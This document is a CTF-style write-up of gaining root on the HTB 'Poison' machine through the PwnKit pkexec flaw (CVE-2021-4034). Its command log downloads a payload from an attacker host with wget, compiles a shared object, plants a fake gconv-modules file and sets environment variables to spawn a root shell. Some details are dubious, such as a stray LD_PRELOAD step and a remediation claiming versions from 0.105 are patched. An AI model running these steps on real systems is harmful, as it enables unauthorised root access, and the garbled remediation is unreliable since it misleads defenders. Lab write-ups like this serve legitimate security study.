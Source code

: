 # BugVex Security Report - Privilege Escalation on HTB "Poison"

## Summary
While exploring HTB's *Poison* machine, I was initially looking for weak sudo rules or setuid binaries.
However, a quick run of LinPEAS showed me something more interesting: an outdated version of `pkexec`.
From past experience, I recognized this immediately as the infamous **PwnKit** vulnerability (**CVE-2021-4034**).
Exploiting it allows privilege escalation to root by abusing environment variables.

---

## Tools Used
1. **Nmap** – For discovering open services on the target
2. **Gobuster** – Used to brute-force hidden directories
3. **Burp Suite** – Intercepted requests to analyze file uploads
4. **LinPEAS** – Flagged `pkexec` as a potential vector
5. **GCC** – Compiled the custom exploit payload
6. **Custom Payload** – Shared object crafted for privilege escalation
7. **GDB** – Used briefly to observe binary behavior

---

## Command Log
```bash
$ nmap -sC -sV -oA scan 10.10.10.84
$ gobuster dir -u http://10.10.10.84 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
$ ssh poison@10.10.10.84
$ wget http://10.10.14.10/payload.c
$ gcc payload.c -o payload.so -shared -fPIC
$ mkdir exploit && mv payload.so exploit/
$ echo 'module UTF-8// POC// payload 2' > exploit/gconv-modules
$ export GIO_USE_VFS=local
$ export PATH=./exploit:$PATH
$ export LD_PRELOAD=./exploit/payload.so
$ export GCONV_PATH=./exploit
$ export CHARSET=POC
$ pkexec
```

---

## Conclusion
The exploit worked perfectly. I spawned a root shell without any need for user interaction.
**PwnKit** remains a dangerous vulnerability, especially when left unpatched on CTF or real-world targets.
This was a satisfying find that reminded me to always pay attention to local privilege escalation paths — even old ones.

---

## Remediation
- Upgrade `pkexec` to a patched version (>= 0.105)
- Restrict access to compilers and dangerous binaries
- Use AppArmor or SELinux to contain privilege boundaries
- Monitor for suspicious environment variable activity

---

*Report by **BugVex***
